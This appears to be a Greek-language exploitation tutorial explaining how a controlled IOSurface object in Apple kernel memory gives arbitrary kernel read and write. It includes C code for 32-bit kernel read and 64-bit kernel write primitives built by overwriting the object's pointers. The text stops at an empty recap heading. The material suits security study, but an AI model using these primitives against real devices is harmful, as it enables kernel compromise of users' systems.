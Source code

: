 Αφού αποκτήσουμε έλεγχο ενός αντικειμένου IOSurface στη μνήμη του πυρήνα (χαρτογραφημένο σε μια ελεύθερη φυσική σελίδα προσβάσιμη από το userspace), μπορούμε να το χρησιμοποιήσουμε για **τυχαίες λειτουργίες ανάγνωσης και εγγραφής στον πυρήνα**.

**Key Fields in IOSurface**

Το αντικείμενο IOSurface έχει δύο κρίσιμα πεδία:

1. **Use Count Pointer**: Επιτρέπει μια **32-bit ανάγνωση**.
2. **Indexed Timestamp Pointer**: Επιτρέπει μια **64-bit εγγραφή**.

Με την επαναγραφή αυτών των δεικτών, τους ανακατευθύνουμε σε τυχαίες διευθύνσεις στη μνήμη του πυρήνα, επιτρέποντας δυνατότητες ανάγνωσης/εγγραφής.

#### 32-Bit Kernel Read

Για να εκτελέσουμε μια ανάγνωση:

1. Επαναγράψτε τον **δείκτη χρήσης** ώστε να δείχνει στη διεύθυνση στόχο μείον μια απόσταση 0x14 byte.
2. Χρησιμοποιήστε τη μέθοδο `get_use_count` για να διαβάσετε την τιμή σε αυτή τη διεύθυνση.
```c
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
uint64_t args[1] = {surfaceID};
uint32_t size = 1;
uint64_t out = 0;
IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
uint64_t orig = iosurface_get_use_count_pointer(info.object);
iosurface_set_use_count_pointer(info.object, addr - 0x14); // Offset by 0x14
uint32_t value = get_use_count(info.client, info.surface);
iosurface_set_use_count_pointer(info.object, orig);
return value;
}
```
#### 64-Bit Kernel Write

Για να εκτελέσετε μια εγγραφή:

1. Επαναγράψτε τον **δείκτη χρονοσήμανσης με δείκτη** στη στοχευμένη διεύθυνση.
2. Χρησιμοποιήστε τη μέθοδο `set_indexed_timestamp` για να γράψετε μια 64-bit τιμή.
```c
void set_indexed_timestamp(io_connect_t client, uint32_t surfaceID, uint64_t value) {
uint64_t args[3] = {surfaceID, 0, value};
IOConnectCallMethod(client, 33, args, 3, 0, 0, 0, 0, 0, 0);
}

void iosurface_kwrite64(uint64_t addr, uint64_t value) {
uint64_t orig = iosurface_get_indexed_timestamp_pointer(info.object);
iosurface_set_indexed_timestamp_pointer(info.object, addr);
set_indexed_timestamp(info.client, info.surface, value);
iosurface_set_indexed_timestamp_pointer(info.object, orig);
}
```
#### Ανακεφαλαίωση Ροής Εκμετάλλευσης
